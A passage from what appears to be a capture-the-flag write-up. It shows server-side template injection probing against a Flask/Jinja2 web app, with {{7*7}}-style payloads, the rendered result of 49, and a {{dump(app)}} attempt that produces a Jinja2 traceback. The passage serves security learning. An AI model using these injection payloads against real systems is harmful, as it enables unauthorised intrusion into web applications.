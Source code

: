 Looks like it doesn't like one of the characters, likely the period so lets try just robots
```

404
SORRY!
The page you’re looking for was not found.
No results for robots
```

Here is the 404 page we were expecting, but it looks like our page request robots is present in the body so let's test for SSTI, using the methodologies found on https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
```
/${7*7}
404
SORRY!
The page you’re looking for was not found.
No results for ${7*7}

/{{7*7}}

404
SORRY!
The page you’re looking for was not found.
No results for 49
```
Bingo! Looks like something is definitely amiss here so lets try a twig injection
```
/{{dump(app)}}

jinja2.exceptions.UndefinedError

jinja2.exceptions.UndefinedError: 'dump' is undefined
Traceback (most recent call last)

    File "/home/web/shuriken-dotpy/app/home/routes.py", line 28, in route_template

    return render_template( template )

    File "/home/web/.local/lib/python3.6/site-packages/flask/templating.py", line 138, in render_template

    ctx.app.jinja_env.get_or_select_template(template_name_or_list),

    File "/home/web/.local/lib/python3.6/site-packages/jinja2/environment.py", line 930, in get_or_select_template

    return self.get_template(template_name_or_list, parent, globals)

    File "/home/web/.local/lib/python3.6/site-packages/jinja2/environment.py", line 883, in get_template

    return self._load_template(name, self.make_globals(globals))

    File "/home/web/.local/lib/python3.6/site-packages/jinja2/environment.py", line 857, in _load_template

    template = self.loader.load(self, name, globals)

    File "/home/web/.local/lib/python3.6/site-packages/jinja2/loaders.py", line 115, in load

    source, filename, uptodate = self.get_source(environment, name)

    File "/home/web/.local/lib/python3.6/site-packages/flask/templating.py", line 60, in get_source

```